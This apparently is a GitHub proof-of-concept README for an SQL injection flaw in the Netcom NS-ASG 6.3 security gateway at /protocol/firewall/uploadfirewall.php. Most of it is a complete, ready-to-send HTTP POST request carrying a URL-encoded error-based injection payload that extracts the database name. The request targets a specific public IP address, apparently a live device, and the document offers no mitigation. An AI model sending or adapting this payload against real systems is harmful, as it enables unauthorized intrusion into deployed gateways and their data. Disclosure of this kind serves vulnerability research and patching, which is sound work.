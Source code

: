 # SQL injection POC

There is a SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.
[official website](https://www.netentsec.com/)
version:NS-ASG 6.3
Vulnerability points：/protocol/firewall/uploadfirewall.php analyse as below: As shown below, the $FireWallId database value is accepted by messagecontent and then substituted into the database statement.

![image](https://github.com/gb111d/ns-asg_poc/assets/148308306/3f18372a-9798-49ce-93d1-16cdb9daec78)


[https://106.37.206.12/]

ps: use older tls version or just access through mobile browser.

There is no validation during the execution of SQL injection.

Poc：
```
POST /protocol/index.php HTTP/1.1
Content-Length: 377
Host: 106.37.206.12
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Content-Type: application/x-www-form-urlencoded
Referer: https://106.37.206.12/protocol/index.php
Connection: close

jsoncontent=%7B%22protocolType%22%3A%22uploadfirewall%22%2C%22messagecontent%22%3A%5B%221%20AND%20%28SELECT%205347%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%280x716a716b71%2C%28MID%28%28IFNULL%28CAST%28DATABASE%28%29%20AS%20NCHAR%29%2C0x20%29%29%2C1%2C54%29%29%2C0x71707a6b71%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x%29a%29%22%5D%7D
```

Send request with the payload above.

![image](https://github.com/gb111d/ns-asg_poc/assets/148308306/97490bc6-c1a7-4f28-a6fe-102643b3c1a3)


![image](https://github.com/gb111d/ns-asg_poc/assets/148308306/ee5f5fac-4523-4038-aa91-058c1f88c6ac)

